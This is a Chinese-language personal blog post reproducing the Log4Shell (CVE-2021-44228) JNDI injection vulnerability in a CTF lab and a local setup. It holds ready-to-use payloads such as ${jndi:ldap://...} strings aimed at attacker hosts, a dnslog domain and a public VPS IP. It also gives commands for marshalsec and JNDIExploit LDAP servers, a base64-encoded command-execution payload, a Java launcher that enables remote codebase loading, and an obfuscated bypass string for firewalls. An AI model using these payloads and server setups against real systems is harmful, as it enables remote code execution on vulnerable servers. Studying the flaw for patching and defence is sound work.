

apachelog4j漏洞复现
Apache Log4j 漏洞（JNDI注入 CVE-2021-44228）
原理：https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg
总结一下就是，日志中${}中的部分会被当作lookup函数的参数。
apacjhe log4j中的lookup作用是方便系统将特殊的值添加到日志之中，例如${hostname}就是主机名
只能说期末复习杀我
漏洞影响范围
2.0 <= Apache log4j <= 2.14.1
import org.apache.log4j.Logger;
import java.io.*;
import java.sql.SQLException;
import java.util.*;
public class VulnerableLog4jExampleHandler implements HttpHandler {
static Logger log = Logger.getLogger(log4jExample.class.getName());
/**
* A simple HTTP endpoint that reads the request's User Agent and logs it back.
* This is basically pseudo-code to explain the vulnerability, and not a full example.
* @param he HTTP Request Object
*/
public void handle(HttpExchange he) throws IOException {
string userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
log.info("Request User Agent:" + userAgent);
String response = "<h1>Hello There, " + userAgent + "!</h1>";
he.sendResponseHeaders(200, response.length());
OutputStream os = he.getResponseBody();
os.write(response.getBytes());
os.close();
}
}
Data from the User gets sent to the server (via any protocol),
The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via “Java Naming and Directory Interface” (JNDI),
This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.
另一种方法：
1 | import org.apache.logging.log4j.Logger; |

ctfshow复现
我们通过JNDI注入请求DNSLOG的恶意语句，如果在DNSLOG端能查看到访问记录，则证明远程代码执行漏洞存在
我们CTFshow的靶场来做后续验证
我们直接在登录框输入恶意代码：
${jndi:ldap://hackerj.5ymw72.dnslog.cn/exp}
然后我们成功在DNSLOG端查看到访问记录，证实这里漏洞存在
在vps
启一个python服务启一个java服务 监听反弹的端口
1 | 这个东西需要在vps上编译 妈的因为这个编译问题只能执行弹不了shell卡了好久 |

1 | python -m SimpleHTTPServer 50026 |


payload：${jndi:ldap://101.35.158.27:1389/Test}
1 | 漏洞代码在log4j-core与log4j-api这两个jar包中。 |
环境：https://github.com/shanfenglan/apache_log4j_poc
利用条件
2.0 <= Log4j -2 <= 2.14.1
环境搭建
依赖的xml配置在这里查找：https://mvnrepository.com/artifact/org.slf4j/slf4j-api/1.7.25
使用idea创建一个Maven项目，并在pom.xml中添加漏洞版本Apache log4j的相关依赖，分别为log4j-core与log4j-api，最终完整的含具体pom.xml文件如下：
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>org.example</groupId>
<artifactId>log4j-rce</artifactId>
<version>1.0-SNAPSHOT</version>
<dependencies>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<version>2.14.1</version>
</dependency>
</dependencies>
</project>
然后创建一个java文件内容如下：
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4j {
private static final Logger logger = LogManager.getLogger(Log4j.class);
public static void main(String[] args) {
logger.error("${jndi:ldap://192.168.171.1:12344/a}");
}
}
执行这个java文件即可利用漏洞。
https://github.com/tangxiaofeng7/apache-log4j-poc
利用
poc：
${jndi:ldap://192.168.171;1:12344/Basic/Command/whoami}
补充：命令执行部分
这个命令执行是本地的命令执行，也就是说恶意的class文件必须得和漏洞利用点所在的文件在同一文件夹或者同一个jar包内，举例如下：
log4j这个class是漏洞文件，执行后可以利用漏洞。
Log4jRCE是恶意的class文件，作用是在tmp下创建一个文件，名为123。
Tttouch是恶意的class文件，作用是在tmp下创建一个文件，名为1.txt。
我们先看看log4j.java的内容：
启动jndi服务端命令：
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://127.0.0.1:8888/#Tttouch"
当上述三个class文件在同一文件夹内的时候，执行这个log4j之后tmp结果如下：
此时我们将Tttouch.class移动到另一个文件夹下，反正不与log4j放在同一文件夹：
此时再次执行log4j，tmp文件夹中无新增文件：
1.txt并没有被创建
此时我们复制一个Tttouch.class放在和log4j在同一文件夹下，然后将jndi服务器路径下的Tttouch删掉，接着执行log4j：
1.txt再次出现了！！要知道，我们JNDI服务器根本没有这个类！

总结
这个漏洞给我的感觉是可以触发jndi注入，但是不会从我们的jndi服务器上拉取任何文件，而是仅仅判断这个文件本地是否存在，存在则执行，不存在则不执行。传统的jndi注入受害者会想下载我们创建的恶意class文件并实例化，此次好像并不是这样。
补充：如何将其变成正常的JNDI注入(及可加载攻击者自定义的class文件)
条件：如果我们使用LDAP方式的jndi注入，受害者服务器的代码中java的配置必须是com.sun.jndi.ldap.object.trustURLCodebase=True。
JDK中的默认配置如下：
JDK 5U45、6U45、7u21、8u121开始java.rmi.server.useCodebaseOnly默认位置true
JDK 6u132、7u122、8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值false
JDK 11.0.1、8u191、7u201、6u211 com.sun.jndi.ldap.object.trustURLCodebase默认为false
因此我们需要在log4j的代码中加上：
System.setProperty(“com.sun.jndi.ldap.object.trustURLCodebase”,”true”)
最终代码如下：
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4j {
private static final Logger logger = LogManager.getLogger(Log4j.class);
public static void main(String[] args) {
//dG91Y2ggL3RtcC8xMjM 是touch /tmp/123的base64编码
System.out.println("开始执行漏洞利用");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
logger.error("${jndi:ldap://127.0.0.1:12344/Basic/Command/Base64/dG91Y2ggL3RtcC8xMjM}");
System.out.println("利用完成");
}
}
执行命令：
使用JNDIExploit开启jndi服务器：
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.171.1 -l 12344 -p 9999
参考文章：https://www.codenong.com/f23e29b783ff38df36c9/

JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。
这个漏洞的利用跟JDK中的配置有很大关系，换句话说跟jdk版本关系很大。
只要JDK版本无漏洞，那么apache log4j的这个RCE就很难利用成功。
本地快速复现
01参 考 资 料
1 | https://github.com/Yihsiwei/Log4j-exp |
02本地复现步骤
复现环境：
windows10 + 1.8.40 + idea2021.3
win10 ip地址：192.168.43.217
首先需要下载Log4j-exp
现在去刚下载的文件里面找到JNDIExploit-1.2-SNAPSHOT.jar所在的文件夹，并使用cmd打开，执行以下命令：

1 | java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.211.55.3 |
回到你刚打开的idea中，找到log4jRCE文件，将该文件中箭头位置的ip地址进行替换成要攻击的ip。
替换成功之后,进行build：
继续build
然后在刚才的目录下会生成一个out的文件夹：
点进去会找到一个Log4j-rce.jar文件。
直接点开也行 也可以使用以下命令：
1 | java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar |
打开任务管理器的
Bypass
1 | ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc} |
参考
总结 ：
1.很早就看到这个洞了，期末一天学一门真的杀我，终于有时间弄一弄这个，具体原理还不是很特别李姐，还要继续努力，寒假加油，
- java真xxx 为啥在本机编译的就用不了 草 还有 宝塔的防火墙，，，，佛了
 wechat
wechat alipay
alipay